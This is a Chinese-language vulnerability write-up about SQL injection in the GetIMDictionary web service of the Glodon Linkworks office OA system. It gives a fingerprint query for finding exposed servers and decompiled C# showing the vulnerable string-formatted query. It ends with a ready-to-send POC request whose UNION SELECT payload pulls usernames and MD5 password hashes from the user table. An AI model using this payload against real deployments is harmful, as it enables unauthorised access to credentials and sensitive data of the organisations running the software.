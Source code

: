 # 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

## 漏洞影响

广联达 Linkworks

## 网络测绘

```
web.body="/Services/Identification/"
```

## 漏洞复现

登陆页面

![image-20230828150337640](images/image-20230828150337640.png)

```
// GTP.IM.Services.Config.WebSite.WebService.IM.Config.ConfigService
// Token: 0x06000018 RID: 24 RVA: 0x00004148 File Offset: 0x00002348
[WebMethod(Description = "得到IM系统配置")]
public string GetIMDictionary(string key)
{
	string str = string.Empty;
	ISysConfigService service = ServiceFactory.GetService<ISysConfigService>();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.AppendFormat("select F_VALUE from T_IM_DICTIONARY where f_key='{0}';", key);
	DataSet dataSet = GSqlDataAccess.SelectDataSet(service.DataSourceName, stringBuilder.ToString(), new DataParameter[0]);
	if (dataSet != null && dataSet.Tables.Count > 0 && dataSet.Tables[0] != null)
	{
		foreach (object obj in dataSet.Tables[0].Rows)
		{
			DataRow dataRow = (DataRow)obj;
			str = dataRow["F_VALUE"].ToString();
		}
	}
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.Append("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
	stringBuilder2.Append("<result  value=\"" + str + "\" >");
	stringBuilder2.Append("</result>");
	return stringBuilder2.ToString();
}
```

![image-20230828150533931](images/image-20230828150533931.png)

验证POC

```
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

![image-20230828150553176](images/image-20230828150553176.png)